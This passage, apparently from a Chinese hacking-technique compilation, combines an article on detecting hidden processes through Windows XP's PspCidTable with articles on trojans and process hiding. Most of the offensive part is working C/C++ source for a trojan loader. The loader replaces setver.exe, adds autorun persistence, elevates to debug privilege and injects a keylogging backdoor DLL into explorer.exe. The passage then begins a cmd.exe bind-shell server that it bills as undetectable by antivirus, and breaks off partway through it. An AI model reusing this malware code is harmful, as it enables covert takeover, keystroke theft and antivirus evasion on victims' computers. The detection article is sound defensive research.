如果是 Win32 系统的话，我们修改 winit.ini 或建立 winit.ini 文件，加入以下代码即可。具体操作请见随文提供的源代码。

```ini
[rename]
NUL=文件名              // 删除文件
新文件名=旧文件名        // 文件更名
```

至此，我们的代码就算编写完了，接着你只需要仔细阅读一下源代码，稍微修改一下就能实现一个木马变种了。写这个程序的目的是为了说明现在的软件防火墙是如此的不堪一击，尽管此程序还是逃不过防病毒软件的特征码测试（稍微修改一下汇编代码，加入一些冗余码就可以躲过特征码测试），因为修改了 PE 文件格式，修改了入口点，所以这些痕迹也逃不过防病毒软件的未知病毒测试，那么如何躲过呢？这可是一个大课题了。Rootkit 和 AntiRootkit 之间的竞争从来没停止过，留着以后分析吧。

> 【本文涉及的代码（程序），请见随书光盘】

- 4）如何替换正在运行的文件，如果是 Windows NT 系统，我们使用“MoveFileEx(.., MOVEFILE_DELAY_UNTIL_REBOOT)”即可实现。

### 一种基于 PspCidTable 的进程检测方法


文/图 武汉大学计算机学院信息安全专业 段俊锋

本文介绍 Windows XP 下 PspCidTable 的组织结构和基于该结构的一种进程检测方法。

#### PspCidTable 组织结构简介

在 Windows NT 下，所有的资源都是以对象（object）的方式进行管理。我们平时最常见的进程（process）、文件（file）、设备（device）等都是对象。当我们要访问一个对象时，比如说打开一个文件，系统就会创建一个对象句柄，通过这个句柄来完成对文件的打开、关闭、删除等操作。句柄和对象之间的联系是通过句柄表来完成的。准确地说，一个句柄是它所对应的对象在句柄表中的索引，通过句柄，可以在句柄表找到对象的指针，通过指针对对象进行操作。PspCidTable 是 Windows 系统中一种特殊的句柄表，它不链接在系统句柄表上，也不属于任何一个进程。通过它可以访问系统中所有的对象。在 Windbg 下面可以查看 PspCidTable 的地址。

```text
kd> dd PspCidTable
8055a360  e1000860 00000002 00000000 00000000
8055a370  00000000 00000000 00000000 00000000
```

看得出来，这个系统里 PspCidTable 的地址为 0x8055a360（不同的系统中，这个值是不同的）。这个地址中是一个指向 _HANDLE_TABLE 结构的指针。

```text
kd> dt _HANDLE_TABLE e1000860
ntdll!_HANDLE_TABLE
+0x000 TableCode             : 0xe103000
......
+0x038 NextHandleNeedingPool : 0x800
......
+0x040 StrictFIFO            : 0y1
```

这里的 TableCode 中记录着句柄表的地址。在 Windows 2000 中 PspCidTable 句柄表采用的是三层表结构，TableCode 中记录着三层表——上层表、中层表和下层表的地址。但是在 Windows XP 中，为了节省系统空间，采用了动态扩展的表结构。当句柄数目少的时候仅仅采用下层表，当句柄数目较大的时候系统才会启用中层表，直至上层表。那么怎么判断系统使用了几层表呢？TableCode 的后两位是判断的依据，后两位是 00 则是一层表结构，后两位是 01 则是两层表结构，后两位是 10 则是三层表结构。如果系统采用了两层或者三层表的话，TableCode 中就不是句柄表地址了，把这个值最后两位置 0 之后，则是一个指向多层表地址的指针。下面看看另外一个 Windows XP 系统下的对应的 _HANDLE_TABLE。

```text
lkd> dt _HANDLE_TABLE e1001820
nt!_HANDLE_TABLE
+0x000 TableCode             : 0xe27ef001
...
+0x038 NextHandleNeedingPool : 0x1000
...
+0x040 StrictFIFO            : 0y1
lkd> dd 0xe27ef000
e27ef000 e1003000 e27f5000 00000000 00000000
e27ef010 00000000 00000000 00000000 00000000
```

看得出来，这个系统采用了两层表结构。下层表地址为 0xe1003000，中层表地址为 0xe27f5000。这其中有一个差别，一般采用一层表结构时，偏移 0x038 处的 NextHandleNeedingPool 是 0x800，采用两层表结构时为 0x1000（增加了 0x800），相应的，采用三层表时为 0x1800。

获得了三层句柄表之后，我们就可以通过句柄来访问对象了。具体方法是：如果句柄值小于 0x800，则将句柄值乘以 2 作为下层表中的偏移与下层表基地址相加，就可以获得一个类型为 _HANDLE_TABLE_ENTRY 的地址了，该结构中偏移 00 处为 Object，将这个值最高位置 1，最低二位置 0，就是一个对象（体）指针了；如果句柄值大小大于 0x1000，则将句柄值减去 0x800 再乘以 2 作为中层表中的偏移与中层表地址相加，同样可以获得一个类型为 _HANDLE_TABLE_ENTRY 的地址，依次类推。

下面举一个例子来说明怎么通过句柄来访问对象。Windows XP 下，System.exe 进程的 PID 始终为 04，实际上就是句柄值。当前系统的句柄表为两层表结构，地址分别为下层表 0xe1003000，中层表地址为 0xe27f5000。由于 04 小于 0x800，所以 _HANDLE_TABLE_ENTRY 的地址为 0xe1003000+0x04*2=0xe1003008，即：

```text
lkd> dt _HANDLE_TABLE_ENTRY e1003008
nt!_HANDLE_TABLE_ENTRY
+0x000 Object             : 0x8234a661
...
+0x004 NextFreeTableEntry : 0
```

我们把 Object 处的指针转换为对象（体）指针，即 0x8234a660，看看对不对。

```text
lkd> !object 0x8234a660
Object: 8234a660  Type: (8234aca0) Process
ObjectHeader: 8234a648 (old version)
HandleCount: 2  PointerCount: 90
lkd> !process 0x8234a660 0
PROCESS 8234a660  SessionId: none  Cid: 0004  Peb: 00000000  ParentCid: 0000
DirBase: 006f2000  ObjectTable: e1001c80  HandleCount: 524
Image: System
```

看得出来，的确是系统中的 System 进程（Image 为进程名）。前面“lkd> !object 0x8234a660”中显示，对象的 Type 内容为 Process。系统中类型相同的对象，这个地方的值是一样的。进程对象同样如此。同时，在对象（体）指针之前有一个类型为 _OBJECT_HEADER 的对象（头）指针，记录着对象的一些基本信息，比如类型。上面显示的 ObjectHeader 为 0x8234a648（在对象（体）之前偏移 0x18 处，0x8234a660-0x8234a648=0x18），即：

```text
lkd> dt _OBJECT_HEADER 8234a648
nt!_OBJECT_HEADER
...
+0x008 Type : 0x8234aca0 _OBJECT_TYPE
...
+0x018 Body : _QUAD
```

偏移 08 处是类型为 _OBJECT_TYPE 的 Type 指针，是一个 Process 对象。

```text
kd> dt _OBJECT_TYPE 0x8234aca0
nt!_OBJECT_TYPE
+0x000 Mutex       : _ERESOURCE
...
+0x040 Name        : _UNICODE_STRING "Process"
...
+0x0b0 ObjectLocks : [4] _ERESOURCE
```

#### 基于 PspCidTable 结构的进程检测方法

利用 PspCidTable 来访问对象，我们已经简单地了解了。接下来介绍一下基于 PspCidTable 结构的进程检测如何具体实现。

基本原理是这样的：系统内所有进程对象的对象类型（即 Type）是一样的，先取得任一进程的类型，然后访问所有可能的句柄值，如果句柄的类型是进程的话，就记录下来，这样的话，系统内所有的进程对象就都被记录下来了。

要解决的第一个问题是获取 PspCidTable 的地址。前面已经知道了，在不同的系统、不同的系统版本中……环境下，`PspCidTable` 的地址是不同的，因为系统函数 `PsLookupProcessByProcessId` 中引用了该地址，因而在程序中我们可以通过搜索 `PsLookupProcessByProcessId` 的内存空间来获得该地址。我们先看看 `PsLookupProcessByProcessId` 的部分反汇编代码。

```text
lkd> u PsLookupProcessByProcessId
nt!PsLookupProcessByProcessId:
805c8ecc 8bff            mov edi,edi
805c8ece 55              push ebp
......
805c8ede ff8e40000000    dec dword ptr [esi+40D4h]
805c8ce4 ff3560a55580    push dword ptr [nt!PspCidTable]
                         (8055a560)
805c8eea e8c5b40300      call nt!ExMapHandleToPointer
                         (806043b4)
```

从上面的代码可知，在 `PsLookupProcessByProcessId` 函数的内存空间中搜索 `0x35ff` 和 `0xe8` 就可以确定 `PspCidTable` 的地址了。

要解决的第二个问题是由对象（体）指针确定对象（头）指针。大部分系统中，对象（头）指针在对象（体）指针之前偏移 `0x18` 处，但是也有特殊的，所以我们这里使用 `OBJECT_TO_OBJECT_HEADER` 宏来实现这个功能。它接受一个参数——对象体指针，返回对象头指针。

```c
#define OBJECT_TO_OBJECT_HEADER(obj) \
CONTAINING_RECORD((obj), OBJECT_HEADER, Body)
```

接着要获取进程对象的类型指针，我们可以取得任一进程对象的地址（其实就是进程对象（体）指针值），然后访问其对象（头）指针，获得进程对象类型的指针。

```c
eproc=(ULONG)PsGetCurrentProcess();
// PsGetCurrentProcess 获取当前活动进程的地址
eproc=(ULONG)OBJECT_TO_OBJECT_HEADER(eproc);
type=*(PULONG)(eproc+TYPE);
```

最后，取得系统的句柄表层数，对所有可能的句柄值分别进行索引，取得对象（体）指针和对象（头）指针，把类型指针与前面所获取的类型指针相同的对象存储下来，这样我们就获得了所有的进程对象了，判断句柄表结构的代码如下。

```c
TableCode=*(PULONG)(*(PULONG)PspCidTable);
if((TableCode&0x3)==0x0) // 采用一层表结构
{table1=TableCode;
 table2=0x0;}
if((TableCode&0x3)==0x1) // 采用两层表结构
{TableCode=TableCode&0xfffffffC;
 table1=*(PULONG)TableCode;
 table2=*(PULONG)(TableCode+0x4);}
```

遍历所有句柄的部分代码如下（句柄范围 `0x0—0x4e1c`，参考自《FUTo》）。

```c
for(i=0x0;i<0x4e1c;i++)
{
  if(i<=0x800)
  {
    if(MmIsAddressValid((PULONG)(table1+i*2)))
    {
      object=*(PULONG)(table1+i*2);
      ......
    }
  }
  else
  {
    if(table2!=0)
    {
      if(MmIsAddressValid((PULONG)(table2+(i-0x800)*2)))
      {
        object=*(PULONG)(table2+(i-0x800)*2);
        ......
      }
    }
  }
}
```

## 具体细节的补充说明

- 1）我所给出的基本结构和原理是 Windows NT 架构下所有系统都采用的，因而在其他系统下这个方法依然可以实现进程检测；但是在 Windows 2000/XP/2003 下句柄表或者对象的数据结构都有一定的差别，所以在其他系统下需要对相应句柄表访问方式、系统数据偏移量等值进行修改。我所给出的驱动程序在 Windows XP SP2 下由 Windows DDK 编译，可以使用 rootkit.com 提供的 InstDrv 进行加载，使用 DbgView 查看运行结果，在 Windows XP SP2 下测试通过，可以成功检测 FU_rootkit 和 hxdef100（黑客守护者）隐藏的进程。
- 2）这种检测方法针对的是系统句柄，因而对于不存在句柄的 System Idle Process 无法检测。
- 3）因为进程的退出也是基于句柄的，所以可能存在进程已经退出，但由于系统句柄并没有完全删除，而进程对象仍然存在的情况。对于这种情况，可以通过进程对象 EPROCESS 结构中 ProcessExiting、ProcessDelete 等标志位来判断进程是否已经退出，若已退出则放弃。

本文是我在哈尔滨安天实验室实习之后完成的，非常感谢安天实验室给我这个宝贵的实习机会。同时，也非常感谢我实习期间的导师康学斌，他给了我很大的帮助。

> 【本文涉及的代码（程序），请见随书光盘】

## 进程隐藏技术

### ——DLL远程线程插入主程序

文／单长虹，袁宇丽


进程的隐藏通常谈得比较多，也是现在后门中普遍采用的技术。现在网络上很多程序都是使用它！但其中又是有 3 种技术最为关键，下面我们详细看看。

### 进程隐藏之三足鼎立

- 1. 远程线程插入技术。这种技术可以将要实现的功能程序做成一个线程，并将此线程在运行时自动插入到常见进程中，使之作为此进程的一个线程来运行。在实现上，这个技术比较复杂，因为这个线程在目标进程中的寻址会出现问题，必须要进行地址的重定位。为了实现地址的重定位，需要将许多要用到的使用地址进行访问的函数和变量的地址保存下来，然后将这些函数和变量的名称字符串插入到目标进程中去。需要插入到目标进程中的内容包括线程的过程体、线程中要用到的所有 API 函数、所有自己定义的函数、所有的全局变量、所有的字符串。也就是说，在编程实现中，需要用到上述的任何东西，都要再次在启动进程中分配存储空间，并要插入到目标进程中去。这种方法对于实现较少功能的程序来说还可以忍受，一旦程序实现的功能较多，其编程的复杂性会非常高，不符合常规程序设计的特点，也会实现困难，最终可能导致程序的崩溃。从总体上来分析发现，这种技术不适合功能比较多的后门控制程序的编写。
- 2. 动态链接库插入技术。将后门程序做成一个动态链接库文件，仍然使用远程线程插入技术将此动态链接库的加载语句插入到目标进程中去，并将调用动态链接库函数的语句插入到目标进程，这个函数类似于普通程序中的入口程序。这里需要提及的是，在现有公布的文档中，似乎大家都觉得应该将实现后门功能的入口程序放在 `DLL_PROCESS_ATTACH` 或者 `DLL_THREAD_ATTACH` 分支语句处。但是我们在实验中发现，这样做会引出诸多的问题，每个进程在调用自己需要的动态链接库的时候都会调用入口函数，这样就会出现一些多次加载的错误。对于这一点，微软的文档中没有做明确的说明。

> 远程线程函数插入到目标进程中的程序不能使用目标程序的消息循环，所以对于既要使用进程隐藏，又要使用交互式程序界面的程序是不能实现的。目前使用这种方法进行隐藏的后门软件主要有 PortLess、BackDoor、BITS.dll、NOIR-QUEEN。

启动 DLL 后门的载体 EXE 是不可缺少的，也是非常重要的，它被称为 Loader。如果没有 Loader，那我们的 DLL 后门如何启动呢？因此，一个好的 DLL 后门会尽力保护自己的 Loader 不被查杀。Loader 的方式有很多，可以是为我们的 DLL 后门而专门编写的一个 EXE 文件，也可以是系统自带的 Rundll32.exe，即使停止了 Rundll32.exe，DLL 后门的主体还是存在的。3721 网络实名就是一个例子，虽然它并不是真正的“后门”。

- 3. Hooking API。这是比较经典的技术，这里使用“Hooking API”这个术语表示对 API 的完全修改，就是通过修改 API 函数的入口地址的方法来欺骗试图列举本地所有进程的程序。因为能够列举本地进程的 API 函数也就是那几个，所以为了能够欺骗列进程程序，就要修改列进程 API 函数的入口地址，使别的程序在调用这些函数的时候首先转向我们的程序，我们的程序中需要做的工作就是在列表中将自己的进程信息去掉，从而达到进程的隐藏。这种方法的实现难度更大，要求程序设计者要精通 Windows 下的进程、汇编、PE 文件结构和一些 API 函数。

首先来看运行前挂钩。这里修改我们想要修改的函数的物理模块（大多数时候是 `.exe` 或 `.dll`），在这里我们至少有 3 种可能的做法。

第一种可能是找到函数的入口点，然后重写它的代码，这会因为函数的大小而受限制，但我们能动态加载其他一些模块（API `LoadLibrary`），所以应该足够了。

内核函数（`kernel32.dll`）是通用的，因为 Windows 中每个进程都有这个模块的拷贝。另一个好处是如果我们知道哪些模块在某版本中会修改，我们可以在一些 API（如 `LoadLibraryA`）中使用直接的指针。因为 Kernel 模块在内存中的地址在相同的 Windows 版本中是固定的，我们同样也能用动态加载的模块。在这里它的初始化部分在加载进内存后立刻就运行，在新模块的初始化部分我们不受限制。

第二种可能是在模块中被代替的函数只是原函数的扩展，然后我们选择要么修改开始的 5 个字节为跳转指令或者改写 IAT。如果改为跳转指令，那么将会改变指令执行流程转为执行我们的代码。如果调用了 IAT 记录被修改的函数，我们的代码能在调用结束后被执行，但模块的扩展没那么容易，因为我们必须注意 DLL 首部。

第三种是修改整个模块。这意味着我们创建自己的模块版本，它能够加载原始的模块并调用原始的函数。当然我们对这个不感兴趣，但重要的函数都是被更新的。这种方法对于有的模块过大和拥有几百个导出函数的情况很不方便。

接下来我们来看一下运行时挂钩的技术。在运行前挂钩通常都非常特殊，并且是在内部面向具体的应用程序（或模块）。如果我们更换了 `Kernel32.dll` 或 `Ntdll.dll` 里的函数（只在 NT 操作系统里），我们就能完美地做到在所有将要运行的进程中替换这个函数，但说来容易做起来却非常难……比较好的解决方法是进程正在运行时挂钩，这需要更多的有关知识……为了能写入它自己，我们使用 API 函数 `WriteProcessMemory`。

使用“Hooking API”技术的例子有 *nix 下的 RootKit、Windows 2000 下的 NTrootkit 和 Hxdef 等，另外病毒里的反杀毒软件技术也经常采用。

说了这么多，无非就是让大家了解一下当前进行进程隐藏都有哪些技术，不过，在本文中不可能将所有的技术都讲到……我在这里先对 DLL 的远程线程插入的 Loader 程序进行解析……

### 剑走偏锋之 Loader 技术

我提供的这个程序本身带有木马的功能，它会自动生成一个名字为 `MFC42.DLL` 的文件，并放入 `%systemdir%` 目录下，Loader 程序由 `Setver.exe` 来实现……此外，本 DLL 实现了一个捕获键盘的功能，并将捕获的内容存入 `C:\` 下的 `Keystroke.log` 文件中。

我的程序中要使用的头文件如下：

```cpp
#include "stdafx.h"
#include "tlhelp32.h"
#include "at.h"
```

这个程序中指定要插入的目标进程为 `Explorer.exe`……这里选择进程的一个策略是系统常用的进程，也就是说系统必须启动的进程，因为只有这样才能保证你的程序无论在什么时候都能插入成功。

```cpp
#define TargetEXE "explorer.exe"
#define THREADSIZE 1024 * 8
```

定义一个结构体，这个结构体的成员包括在线程函数中将要用到的全局变量、自定义函数和将要调用的系统函数构成……因为当远程线程被插入 Host 进程中时，面临着地址重定位的问题，所以我们采用变通的方法，将所有这些需要重定位的东西都直接写入目标进程。

```cpp
typedef struct _RemotePara
{
    /* 参数结构 */
    char  DLLPath[256];
    char  funame[256];
    DWORD dwLoadLibrary;
    DWORD dwGetProcAddress;
} RemotePara;
```

提升调试特权级别函数的声明，以使 DLL 能够被顺利插入目标进程中。

`void EnableDebugPriv(void)`

此函数用来将线程插入到 DLL。

## 线程注入类

```cpp
void _inject_dll(void);
```

将自己拷贝到系统目录下，并且选用相应的名称。这里为了更好地隐藏自己，我将替换掉 `%windir%` 下的 `Setver.exe` 程序，启用这个程序用做 DLL 的 Loader 程序，并把这个程序用做每次开机或者登录时自动启动的关联。我们为了得到 `.exe` 程序的全路径，需要使用到 `AfxGetApp()->m_pszHelpFilePath`，这个属性可以得到本应用程序的 `.hlp` 文件的全路径，这个文件路径跟本应用程序路径一致。因为得到的是 `.hlp` 后缀名，而我们需要的是 `.exe` 后缀名，所以要使用函数 `_splitpath` 对 `.hlp` 路径分离后再重组，即可得到 `.exe` 程序全路径。

```cpp
void CopyMeToSysDir(void)
{
    CString sourcepath, destpath;
    char drive[_MAX_DRIVE];
    char dir[_MAX_DIR];
    char fname[_MAX_FNAME];
    char ext[_MAX_EXT];
    _splitpath(AfxGetApp()->m_pszHelpFilePath, drive, dir, fname, ext);
    sourcepath = drive;
    sourcepath = sourcepath + dir + AfxGetApp()->m_pszExeName + ".exe";
    char tmp[256];
    GetWindowsDirectory(tmp, 256);
    destpath = tmp;
    destpath = destpath + "\\setver.exe";
    if (!strcmp(sourcepath, destpath)) return;
    CopyFile(sourcepath, destpath, false);
}
```

使用 `System.ini` 在注册表中添加自动启动键值。为了更好隐藏自动选项，选择不常使用的键值。这里用到写 ini 配置文件技术，在程序中看似写入 `System.ini`，实际上对应操作已经反映到注册表中，因此可在一定程度上提高隐蔽性。

```cpp
void AddAutorun(void)
{
    CString DirWin, DirSys, strSysContents, strSystemINI;
    char tmp[256];
    GetWindowsDirectory(tmp, 256);
    DirWin = tmp;
    GetSystemDirectory(tmp, 256);
    DirSys = tmp;
    strSysContents = DirWin + "\\explorer.exe";
    strSystemINI = DirWin + "\\system.ini";
    WritePrivateProfileString(
        _T("boot"),
        _T("shell"),
        _T(strSysContents.GetBuffer(256)),
        _T(strSystemINI.GetBuffer(256))
    );
}
```

```cpp
strSysContents = DirWin + "\\setver.exe";
strSystemINI = DirWin + "\\system.ini";
WritePrivateProfileString(
    _T("boot"),
    _T("shell"),
    _T(strSysContents.GetBuffer(256)),
    _T(strSystemINI.GetBuffer(256))
);
```

下面这个函数的功能是将对应 API 函数在 DLL 中的相对地址保存下来。该函数实现比较简单：从给定 DLL 句柄中读出对应 API 的入口地址。把这个功能做成独立模块是为了增强程序独立性。

```cpp
void SaveAddr(HINSTANCE h, char *f, DWORD *dwf)
{
    *dwf = (DWORD)::GetProcAddress(h, f);
    if (!*dwf) {
        printf("failed at GetProcAddress for %s\r\n", f);
    }
}
```

将用到的 API 函数在对应 DLL 中的相对地址保存下来。在本程序中，`ThreadProc` 线程函数实际上只用到 `LoadLibraryA` 和 `GetProcAddress` 两个 API，而这两个 API 都位于 `Kernel32.dll`。

```cpp
void SetFunctionAddr(RemotePara *pRP)
{
    HINSTANCE hKernel32 = ::LoadLibrary("kernel32.dll");
    SaveAddr(hKernel32, "LoadLibraryA", &pRP->dwLoadLibrary);
    SaveAddr(hKernel32, "GetProcAddress", &pRP->dwGetProcAddress);
}
```

对于自己在 DLL 中定义的函数，需要先进行函数类型声明，以便后续在 Host 程序中分配相应结构中的地址。

```cpp
typedef HMODULE (__stdcall *MLoadLibrary)(LPCTSTR);
typedef FARPROC (__stdcall *MGetProcAddress)(HMODULE, LPCSTR);
```

定义远程线程的线程函数。在使用 `CreateRemoteThread` 创建线程时，将 `RemotePara` 结构体中保存的全局变量、自定义函数和系统 API 函数作为线程参数传入，在线程函数中通过形式参数 `LPara` 访问。

程函数中，我们要使用到 `LoadLibrary` 和 `GetProcAddress` 两个 API 函数，而这两个函数不能直接访问，所以这时候我们说的 `RemotePara` 里面保存的 `LoadLibrary` 和 `GetProcAddress` 的地址就起作用了。如果你不这样做，肯定会出现地址访问错误，要是不信可以试试看。

我们这里面要实现的最重要的功能就是将自己的 DLL 加载进来（如果不能加载 DLL，说了半天等于白说），同时，我们的 DLL 中的入口函数是 `GetStart(HINSTANCE hInstance)`，这里的 `hInstance` 是我们的 DLL 的句柄，你可以在这里面直接传递给 DLL 里面的 `GetStart` 函数。做法都在里面了，剩下的就看大家的造化了。

```c
DWORD __stdcall ThreadProc(RemotePara *LPara)
{
    int i, j, l;
    unsigned long d;
    char tmp[256];
    RemotePara *lpPara = LPara;

    MLoadLibrary myLoadLibrary;
    MGetProcAddress myGetProcAddress;
    typedef void (__stdcall *MGetStart) (HINSTANCE);
    MGetStart myGetStart;

    myLoadLibrary = (MLoadLibrary) lpPara->dwLoadLibrary;
    myGetProcAddress = (MGetProcAddress) lpPara->dwGetProcAddress;

    HINSTANCE hDllInstance = myLoadLibrary(lpPara->DLLPath);
    myGetStart = (MGetStart) myGetProcAddress(hDllInstance, lpPara->funame);

    __try {
        myGetStart(hDllInstance);
    }
    __except(1) {
    };

    return 0;
}
```

下面是将 DLL 插入到远程线程中的主程序。一些重要的功能都要在这里实现。

首先，在函数中我们要想办法得到目标进程的 ID，因为打开进程必须通过进程的 ID 才能做到。这就要对存放进程列表的结构进行查找，找到对应名称的进程以后，将其 ID 记录下来，然后传递给 `OpenProcess` 函数。另外，为了解决地址的重定位问题，我们要在目标进程中为线程中要使用到的、需要借助地址访问的变量分配内存，并把分配的内存地址记录下来，然后将这些变量的值写入分配的内存中。

需要注意的是：为了能够顺利地对目标进程进行分配内存的操作，我们必须使用 `EnableDebugPriv()` 来提升我们的 Loader 程序的权限。在这里，API 函数 `VirtualAllocEx` 就可以在指定的进程的虚拟空间中进行地址的分配。因为通过 `CreateRemoteThread()` 函数是在远程进程的地址空间中创建线程，所以它所用到的线程函数和传递给线程函数的参数都必须存在于远程线程中。所以才有了上面的首先在远程进程中分配虚拟内存，然后将要用的变量写入分配的虚拟内存中的设计思路。

```c
void inject_dll(void)
{
    int hProcess;
    char dllfn[MAX_PATH];

    EnableDebugPriv();
    GetSystemDirectory(dllfn, MAX_PATH);
    strcat(dllfn, "\\mfc42m.dll");
    GenerateDLL(dllfn);

    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32;
    hProcess = 0;
    pe32.dwSize = sizeof(PROCESSENTRY32);

    if(Process32First(hSnap, &pe32)) {
        do {
            if(!stricmp(pe32.szExeFile, TargetEXE)) {
                hProcess = pe32.th32ProcessID;
                break;
            }
            pe32.dwSize = sizeof(PROCESSENTRY32);
        } while(Process32Next(hSnap, &pe32));
    }

    HANDLE hOpenProcess = OpenProcess(
        PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
        FALSE,
        hProcess
    );

    if(!hOpenProcess) {
        printf("failed at 1\n");
        return;
    }
}
```

## 线程注入类

给将要插入到远程进程的线程在目标进程中分配空间，大小由 `THREADSIZE` 决定，空间的起始地址赋值给 `pRemoteThread`，代码如下：

```c
void *pRemoteThread = ::VirtualAllocEx(
    hOpenProcess,
    0,
    THREADSIZE,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
if(!pRemoteThread){
    printf("failed at 2\n");
    return;
}

/* 将整个ThreadProc插入到远程进程的地址空间中 */
if(!::WriteProcessMemory(hOpenProcess, pRemoteThread, ThreadProc, THREADSIZE, 0)){
    printf("failed at WriteProcessMemory\n");
    return;
}

/* initialize public remote parameters */
RemotePara myRemotePara;
::ZeroMemory(&myRemotePara, sizeof(RemotePara));
SetFunctionAddr(&myRemotePara);
strcpy(myRemotePara.DLLPath, dllfn);
strcpy(myRemotePara.funame, "GetStart");

/* load public remote parameters */
RemotePara *pRemotePara = (RemotePara *)::VirtualAllocEx(
    hOpenProcess,
    0,
    sizeof(RemotePara),
    MEM_COMMIT,
    PAGE_READWRITE
);
if(!pRemotePara){
    printf("failed at 4\n");
    return;
}
if(!::WriteProcessMemory(hOpenProcess, pRemotePara, &myRemotePara, sizeof(RemotePara), 0)){
    printf("failed at 5\n");
    return;
}

/* 在目标进程中创建远程线程 */
HANDLE hRemoteThread = ::CreateRemoteThread(
    hOpenProcess,
    0,
    0,
    (DWORD(__stdcall *)(void *)) pRemoteThread,
    pRemotePara,
    0,
    0
);
if(!hRemoteThread){
    printf("failed at 6\n");
    return;
}
```

```c
return;
}
}
```

提升调试特权级以使线程能够顺利插入到远程进程中去。这个模块中，首先我们要将 Loader 程序的进程的令牌打开，并将其属性设置为具有调整令牌的权限，这可以通过对 `tkp.Privileges[0].Attributes` 设置为 `SE_PRIVILEGE_ENABLED` 来实现。然后，我们需要做的就是使用 `AdjustTokenPrivileges()` 函数，对 Loader 程序的令牌做出调整。有些结构读者可能是第一次看到，如果有什么疑问，可以在 MSDN 中查找一下“帮助”，结合“帮助”分析一下程序就很容易看懂了。

```c
void EnableDebugPriv(void)
{
    HANDLE hToken;
    LUID sedebugnameValue;
    TOKEN_PRIVILEGES tkp;
    /* 以调整和查询的方式，打开本进程的令牌 */
    if(!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) return;
    if(!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue)){
        CloseHandle(hToken);
        return;
    }
    /* 对令牌做调整，使其打开特权级 */
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Luid = sedebugnameValue;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    if(AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) CloseHandle(hToken);
}
```

程序的主函数如下：

```c
void htmain(void)
{
    CopyMeToSysDir();
    AddAutorun();
    inject_dll();
}
```

对于 DLL 文件不做具体的要求，程序设计者可以将自己要实现的后门功能加入到 DLL 中，然后使用我们这个主程序进行 DLL 的远程线程插入。不过，通过这种方式插入的 DLL 不能做成交互界面，这一点是通过多次实验发现的，业界很多高手也有共识。但是个人认为，事物没有绝对的，也许在不久的将来有高人出现，能够通过某些变通的方法将交互功能实现，那就最好不过了，真诚期待这一天的早日到来。

**Socket：**很多溢出程序和后门工具都使用了远程 Shell 获取技术，这个技术一般都是通过管道实现的：服务端程序运行后开一个端口，将 `Cmd.exe` 加载到内存，创建一个管道，把程序在端口上接收的数据通过管道送给 Cmd。实现方法就是用 `CreateProcess` 来创建 `Cmd.exe` 这个进程，然后通过匿名管道（Anonymous Pipe）来完成输入输出的重定向。大致方法都非常普通，所以这里作为一种经典的技术和大家一起讨论。还是那句话，希望新手朋友们能逐步提高。


#### 编程实现

### 远程 Shell 的获取

很多朋友都对远程 Shell 获取感到很好奇吧？下面我就给出一个 C 语言版本的服务器端程序，别看这个程序小，它却能实现 Shell 的获取，而且程序非常简单。看了此文，相信你写一个自己的 Shell 绝对不是问题——这可是自己写的不被杀的哦！

#### 头文件和基本参数定义

在程序的开始部分，我们应该将如下的头文件包含进来：程序中用到了 `strcat()` 字符串处理函数，所以包含了 `string.h`，这个程序中使用了 Winsock 编程的技术，当然 `winsock2.h` 也必不可少了。

```c
#include <stdio.h>
#include <string.h>
#include <winsock2.h>
```

接下来这一句是为了使用 `Ws2_32.lib` 中定义的网络通信函数：`#pragma comment(lib, "ws2_32.lib")`。  
为了打开端口进行通信，我们这里随意指定一个端口 `1234`，作为服务器监听的通信端口，一旦有对 `1234` 的连接请求，服务端就可以进行一些相应的处理了：`#define PORT 1234`。

下面就是一些最普通的全局变量声明了：`ServerSocket` 是服务端使用的套接字，`ClientSocket` 是客户端使用的套接字。为了从匿名管道中进行读写操作，还声明了 4 个句柄，其中 `hReadPipe` 和 `hWriteFile` 是为线程处理函数 `ThreadFuncRead` 服务的，而另外两个则是为线程处理函数 `ThreadFuncWrite` 服务的。因为后面我们要通过使用 `WriteFile` 和 `ReadFile` 往通信缓冲区中写入和读取数据，所以这里命名时使用了 `File`。为了使程序能够判断服务端程序是否还处在正常的工作中，还定义了两个变量 `varRead` 和 `varWrite`，当这两个变量都为 `1` 的时候，程序就认为管道读写的两个线程函数都已经准备好，才会继续下面的操作。

```c
SOCKET ServerSocket = INVALID_SOCKET;
SOCKET ClientSocket = INVALID_SOCKET;
HANDLE hReadPipe, hWritePipe, hWriteFile, hReadFile;
u_char varRead, varWrite;
```

> **Socket：**管道是 Windows 系统的一种简单的进程间通信机制，分命名管道和匿名管道两种。命名管道可以在同一计算机上不同进程间使用；匿名管道只能用于父子进程间或者有同一父进程的两个子进程间通信。由于本文程序用 `CreateProcess` 创建了一个 `Cmd.exe`（它就是程序的子进程），因此可以使用匿名管道通信。通常为了编程的简单起见，我们也都是使用匿名管道技术。

#### 给管道赋值并实现数据处理

下面的这个线程函数专门负责给 `hReadFile` 管道句柄赋值，通过它可以从管道中读取数据。它的工作过程是这样的：首先创建一个匿名管道，如果创建成功，就将 `varRead` 赋值为 `1`，接下来就是从网络通信的客户端接收数据，并将这个数据写入 `hWriteFile` 中，从而给第一个用到的匿名管道写入数据。我们来看一下程序：

```c
DWORD WINAPI ThreadFuncRead(LPVOID lpParam)
{
    // 声明一个安全属性结构变量
    SECURITY_ATTRIBUTES pipeattr;
    DWORD nByteToWrite, nByteWritten;
    char recv_buff[1024];
    int nRetCode;
    pipeattr.nLength = sizeof(SECURITY_ATTRIBUTES);
    ...
}
```

```c
pipeattr.lpSecurityDescriptor = NULL;
pipeattr.bInheritHandle = TRUE;
// 创建一个匿名管道，并使用上面的安全属性结构变量
nRetCode = CreatePipe(&hReadPipe,
                      &hWriteFile,
                      &pipeattr,
                      0);
if (nRetCode == 0) {
    printf("CreatePipe readpipe Error!\n");
    exit(-1);
}
varRead = 1;
char curDirBuff[256];
DWORD nDirLength = 0;
nDirLength = GetCurrentDirectory(256, curDirBuff);
curDirBuff[nDirLength] = '>';
